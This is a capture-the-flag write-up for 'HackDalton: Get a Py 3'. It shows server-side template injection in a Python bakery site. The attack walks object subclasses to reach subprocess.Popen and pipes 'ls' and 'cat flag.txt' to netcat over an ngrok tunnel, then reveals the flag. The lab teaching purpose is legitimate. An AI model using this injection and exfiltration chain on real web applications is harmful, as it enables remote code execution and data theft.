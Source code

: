 # HackDalton: Get a Py 3 (Writeup)

> Warning! There are spoilers ahead

Using what we learned in Get a Py 1, we can use SSTI in the bakery website. We can start by injecting to get the class of an empty string.

```python
''.__class__
```

This returns:
```python
<class 'str'> 
```
we can then access the `.mro()` attribute [to get the superclass](https://stackoverflow.com/questions/2010692/what-does-mro-do) of the 'str' class, which is the `object` class. In python, all classes inherit from the `object` class, so we can get a list of all classes.

```python
''.__class__.mro()[1].__subclasses__()
```
This returns a very long list of classes, but the 412<sup>th</sup> one is of interest:

```
 <class 'subprocess.Popen'>
```
[Popen](https://docs.python.org/3/library/subprocess.html#subprocess.Popen) lets us run command line items from Python; however, we are unable to see the output.

We can run ls by injecting the following string, but there's no way to see it.
```python
''.__class__.mro()[1].__subclasses__()[411]("ls")
```

Fortunalty, we can use `netcat` to listen on our local machine, open the port on [ngrok](https://ngrok.io), and listen to the open web. We can then pipe our commands into `netcat` on the server.

**On the local machine**
```shell
$ nc -l 1234
```
```shell
$ ./ngrok tcp 1234
ngrok by @inconshreveable                                                                                                                                    (Ctrl+C to quit)
                                                                                                                                                                             
Session Status                online                                                                                                                                         
Account                       William Barkoff (Plan: Free)                                                                                                                   
Version                       2.3.35                                                                                                                                         
Region                        United States (us)                                                                                                                             
Web Interface                 http://127.0.0.1:4040                                                                                                                          
Forwarding                    tcp://0.tcp.ngrok.io:16697 -> localhost:1234
```

We can then inject the following string
```python
''.__class__.mro()[1].__subclasses__()[411]("ls | nc 0.tcp.ngrok.io 16697", shell=True)
```

We can then see all the contents of the directory where this is running in the process where we originally ran `nc`. We have to set `shell=True` so that the pipe works correctly.

```shell
$ nc -l 1234    
README.md
WRITEUP.md
__pycache__
app.py
database.db
flag.txt
requirements.txt
static
templates
venv
```

We can then repeat the injection but with cat flag.txt to read the flag.

```python
''.__class__.mro()[1].__subclasses__()[411]("cat flag.txt | nc 0.tcp.ngrok.io 16697", shell=True)
```

```
$ nc -l 1234
hackDalton{rc3_1s_th3_w4y_t0_b3_SDc0Q7RwGu}
```

By the way, if you're reading this through the website, congrats! You deserve the flag.